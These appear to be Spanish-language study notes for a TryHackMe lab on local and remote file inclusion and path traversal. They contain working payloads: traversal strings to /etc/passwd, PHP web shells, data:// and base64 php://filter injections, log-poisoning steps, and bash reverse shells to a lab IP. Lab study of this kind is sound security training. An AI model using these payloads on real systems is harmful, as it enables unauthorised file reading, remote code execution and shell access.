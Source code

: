 #lfi 


https://tryhackme.com/r/room/filepathtraversal

# File Inclusion, Path Traversal


## Task 1 Introduction

- que es FI , LFI y RFI
- que es Path Trasversal

## Task 2 Web Application Architecture

- que es Frontend
- que es Backend
- Server-Side Scripting and File Handling



LFI Interesting Files
https://github.com/ricew4ng/Blasting-Dictionary/blob/master/LFI-Interesting-Files%EF%BC%88249%EF%BC%89.txt

.htaccess

/etc/passwd
/etc/hosts
/etc/group

/etc/apache2/apache2.conf
/var/log/apache2/access.log
/etc/mysql/my.cnf


## Task 3 File Inclusion Types

### Sobre las rutas

#### Cadenas que atraviesan directorios

- explicar ../ para moverse atraves de los directorios
- se utilizan cadenas de transversal par allegar al directorio que se quiere
#### Rutas relativas
- Localizar un archivo basado en el directorio actual ./folder/file, que es el directorio donde se ejecuta el script
#### Rutas absolutas
- Especifica la ruta completa desde el directorio raiz : /var/www/html/folder/file.php 


### Tipos de inclusión de archivos

#### Local File Inclusion (LFI)
- El atacante explota una entrada sin sanitizar para acceder archivos fuera del directorio inicial, usando cadenas traslversal ../ hasta llegar al punto deseado
`include.php?page=../../../../etc/passwd`
- Se puede llegar a RCE cuando se inyecta codigo, luego se usa LFI para ejecutarlo : log poisoning

#### Ejemplos Local
```
/etc/passwd
/var/log/apache2/access.log
```



#### Remote File Inclusion (RFI)
- Incluir archivos remotos, en una entrada no validada manipulando la ruta
- Se pueden ejecutar scripts no deseados en el 


#### Ejemplos Remoto

```
 python3 -m http.server 80

http://10.6.34.162/file

x.php
<?php phpinfo(); ?>
<?php echo exec('whoami'); ?>
<?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.6.34.162/1234 0>&1'"); ?>


```


## Task 4 PHP Wrappers

- que son los php Wrappers

#### php://filter/
- Convierte el flujo de datos a diferentes formatos

| Filtros                                               |
| ----------------------------------------------------- |
| php://filter/convert.base64-encode/resource=.htaccess |
| php://filter/string.rot13/resource=.htaccess          |
#### data://
- integra datos en linea al flujo de datos
- `data:text/plain,<?php%20phpinfo();%20?>`
- http://10.10.119.58/playground.php?page=data:text/plain,%3C?php%20phpinfo();%20?%3E

```
data:text/plain,<?php phpinfo(); ?>
data:text/plain,<?php echo exec('whoami'); ?>

data:text/plain,<?php shell_exec("/bin/bash -c 'bash -i >%26 /dev/tcp/10.6.34.162/1234 0>%261'"); ?>


data:text/plain,<?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.6.34.162/1234 0>&1'"); ?>
```
 
## Task 5 Base Directory Breakouts
- Aveces hay medidas de protección evitar el path trasversal y por ende el LFI a otros archivos del sistema local
- Podemos evadir
- 
 
```
../../etc/passwd
../../../etc/passwd
/var/www/html/../../etc/passwd
/var/www/html/../../etc/passwd
/var/www/html/../../../etc/passwd
ok
/var/www/html/..//..//..//etc/passwd
```


## Task 6 LFI2 RCE - Session Files
- Los archivos de session en PHP pueden permitir LFI, manipulando los datos de sesión

#### Como trabaja
- iremos al endpoint de sesión: http://10.10.166.18/sessions.php
- inyectamos código : <?php echo phpinfo(); ?>
	- http://10.10.166.18/sessions.php?page=%3C%3Fphp+echo+phpinfo%28%29%3B+%3F%3E
- luego vamos a ver los cookies para traer el id de sesion y con lfi lo mandamos llamar
	- /var/lib/php/sessions/sess_uggbbq21qsb5n8dl1uojg1igj9
	- http://10.10.166.18/sessions.php?page=/var/lib/php/sessions/sess_uggbbq21qsb5n8dl1uojg1igj9
-
### Task 7 LFI2RCE - Log Poisoning

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

#### Como trabaja
- conectamos por netcat al puerto 80 y enviamos codigo



```
nc 10.10.166.18 80
<?php echo phpinfo(); ?>
HTTP/1.1 400 Bad Request
```

o 

```
<?php system($_GET['cmd']); ?>
```
- luego accedemos a los logs


http://10.10.19.119/playground.php
../../../var/log/apache2/access.log

http://10.10.166.18/playground.php?page=%2Fvar%2Flog%2Fapache2%2Faccess.log

### Task 8 LFI2RCE - Wrappers
- Los Wrappers de PHP permiten tambien ejecutar codigo remoto
- Se pude usar el wrapper php://filter, codificado en base 63
#### Como trabaja
- Inyectar desde el url (no cuadro de texto)> http://10.10.166.18/playground.php
- cadena original a inyectar
```
<?php system($_GET['cmd']); echo 'Shell done!'; ?>
```


```
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=whoami
```
	- queda > http://10.10.166.18/playground.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=whoami



#### Se puede tener reverse shell 

```
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=/bin/bash -c 'bash -i > /dev/tcp/10.6.34.162/1234 0>%261'
```

```
/bin/bash -c 'bash -i >%26 /dev/tcp/10.6.34.162/1234 0>%261'
```
## Referencias


- ref1 >https://medium.com/@josewice7/lfi-to-rce-via-log-poisoning-db3e0e7a1cf1
- ref2 > https://dheerajdeshmukh.medium.com/get-reverse-shell-through-log-poisoning-with-the-vulnerability-of-lfi-local-file-inclusion-e504e2d41f69

